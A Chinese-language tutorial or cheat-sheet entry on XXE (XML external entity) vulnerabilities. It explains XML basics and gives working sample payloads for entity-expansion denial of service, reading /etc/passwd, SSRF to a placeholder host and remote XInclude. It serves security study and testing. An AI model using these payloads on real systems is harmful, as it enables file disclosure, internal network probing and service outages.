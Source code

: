 XXE
======================================

XML基础
--------------------------------------
XML 指可扩展标记语言（eXtensible Markup Language），是一种用于标记电子文件使其具有结构性的标记语言，被设计用来传输和存储数据。XML文档结构包括XML声明、DTD文档类型定义（可选）、文档元素。目前，XML文件作为配置文件（Spring、Struts2等）、文档结构说明文件（PDF、RSS等）、图片格式文件（SVG header）应用比较广泛。


XXE
--------------------------------------
当允许引用外部实体时，可通过构造恶意的XML内容，导致读取任意文件、执行系统命令、探测内网端口、攻击内网网站等后果。一般的XXE攻击，只有在服务器有回显或者报错的基础上才能使用XXE漏洞来读取服务器端文件，但是也可以通过Blind XXE的方式实现攻击。


攻击方式
--------------------------------------

拒绝服务攻击
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

::

    <!DOCTYPE data [
    <!ELEMENT data (#ANY)>
    <!ENTITY a0 "dos" >
    <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;">
    <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;">
    ]>
    <data>&a2;</data>

若解析过程非常缓慢，则表示测试成功，目标站点可能有拒绝服务漏洞。
具体攻击可使用更多层的迭代或递归，也可引用巨大的外部实体，以实现攻击的效果。


一般XXE攻击
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

::

    <?xml version="1.0"?>
    <!DOCTYPE data [
    <!ELEMENT data (#ANY)>
    <!ENTITY file SYSTEM "file:///etc/passwd">
    ]>
    <data>&file;</data>

SSRF
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

::

    <?xml version="1.0"?>
    <!DOCTYPE data SYSTEM "http://publicServer.com/" [
    <!ELEMENT data (#ANY)>
    ]>
    <data>4</data>

XInclude
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

::

    <?xml version='1.0'?>
    <data xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include href="http://publicServer.com/file.xml"></xi:include></data>


参考链接
--------------------------------------

- `XML教程 <http://www.w3school.com.cn/xml/>`_
- `未知攻焉知防 XXE漏洞攻防 <https://security.tencent.com/index.php/blog/msg/69>`_
- `XXE 攻击笔记分享 <http://www.freebuf.com/articles/web/97833.html>`_